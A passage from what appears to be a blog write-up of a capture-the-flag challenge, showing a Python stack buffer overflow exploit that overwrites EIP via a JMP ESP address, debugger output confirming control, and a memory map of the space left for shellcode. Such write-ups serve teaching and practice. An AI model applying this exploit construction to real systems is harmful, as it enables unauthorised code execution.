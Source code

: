 # Hard coded target for now
target = targets[0]

print "[*] Attacking {0}:{1} ...".format(host, port)

command  = ""
command += "A" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += "C" * (offsets['ESP'] - len(command))
command += "\xCC\xCC\xCC\xCC"
command += "E" * (max_size - len(command))

print "[*] Command {0} chars...".format(len(command))
pwn(command)
{% endcodeblock %}

Execution of this script gives us the following:

![EIP control](/uploads/2014/03/03-eip-control.png)

"Wonderful", as [muts][] would say. We can see that `ESP` contains the breakpoint instructions and the first of those instructions has been hit, which indicates that our `EIP` overwrite worked and we now have control.

## Getting a shell

If it isn't already clear, we don't really have that much space to play in. Our shellcode space starts at `266`, ends at `365` and has a 4-byte block taken out of the middle of it which contains the `EIP` overwrite and another 4 bytes tucked away between `ESP` and `EIP`. It doesn't leave us with much given how things are broken up. The area we have for shellcode looks like this:

{% codeblock Register contents %}
00B5FF94   00000000  ....
00B5FF98   00000000  ....
00B5FF9C   42424242  BBBB  <-- block 2 start --
00B5FFA0   42424242  BBBB
00B5FFA4   42424242  BBBB
00B5FFA8   42424242  BBBB
00B5FFAC   42424242  BBBB
00B5FFB0   42424242  BBBB
00B5FFB4   42424242  BBBB  --  block 2 end -->
00B5FFB8   7E4456F7  ÷VD~  USER32.7E4456F7
00B5FFBC   43434343  CCCC  <-- tucked away bytes -->
00B5FFC0   CCCCCCCC  ÌÌÌÌ  <-- block 1 start (entry point) --
00B5FFC4   45454545  EEEE
00B5FFC8   45454545  EEEE
00B5FFCC   45454545  EEEE
00B5FFD0   45454545  EEEE
00B5FFD4   45454545  EEEE
00B5FFD8   45454545  EEEE
00B5FFDC   45454545  EEEE  Pointer to next SEH record
00B5FFE0   45454545  EEEE  SE handler
00B5FFE4   45454545  EEEE
00B5FFE8   45454545  EEEE
00B5FFEC   45454545  EEEE
00B5FFF0   45454545  EEEE
00B5FFF4   45454545  EEEE
00B5FFF8   45454545  EEEE
00B5FFFC   00454545  EEE.   -- block 1 end -->
{% endcodeblock %}


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux